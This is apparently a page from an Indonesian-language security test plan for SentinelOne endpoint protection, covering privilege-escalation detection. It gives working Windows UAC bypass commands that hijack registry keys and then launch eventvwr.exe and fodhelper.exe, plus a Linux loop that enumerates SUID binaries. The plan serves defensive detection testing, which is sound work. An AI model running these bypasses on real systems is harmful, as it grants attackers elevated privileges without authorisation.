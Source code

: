 ```bash
```

---

## 🛡️ D2: Privilege Escalation Prevention

### Tujuan Testing
Testing kemampuan SentinelOne mendeteksi dan mencegah privilege escalation attempts.

### Test Scenarios

#### D2.1: UAC Bypass Attempts

**Windows Server:**
```powershell
# Test UAC bypass techniques
# CATATAN: Ini untuk testing purposes saja

# Test 1: eventvwr.exe UAC bypass
$bypassCommand = 'reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /d "powershell.exe -c whoami > C:\temp\uac-bypass-test.txt" /f'
cmd /c $bypassCommand
eventvwr.exe

# Wait and check if bypass succeeded
Start-Sleep -Seconds 10
if(Test-Path "C:\temp\uac-bypass-test.txt") {
    Write-Host "❌ UAC BYPASS SUCCEEDED"
    Remove-Item "C:\temp\uac-bypass-test.txt" -Force
} else {
    Write-Host "✅ UAC BYPASS PREVENTED"
}

# Test 2: fodhelper.exe UAC bypass
reg add "HKCU\Software\Classes\ms-settings\Shell\Open\command" /ve /d "powershell.exe -c whoami > C:\temp\fodhelper-bypass.txt" /f
fodhelper.exe

# Expected Results:
# - UAC bypass attempts should be detected
# - Behavioral analysis should flag suspicious registry modifications
# - Process execution should be monitored and potentially blocked
```

#### D2.2: Sudo Privilege Escalation

**Linux Server:**
```bash
# Test sudo privilege escalation attempts
# Test 1: Sudo version vulnerabilities (if applicable)
sudo --version

# Test 2: SUID binary abuse
find /usr/bin -perm -4000 -type f 2>/dev/null | head -10

# Test common SUID escalation vectors
for binary in find vim less more nano; do
    if [ -u "/usr/bin/$binary" ]; then
        echo "Testing SUID escalation via: $binary"
        # Attempt privilege escalation
        # (Safe testing commands here)
    fi
done

```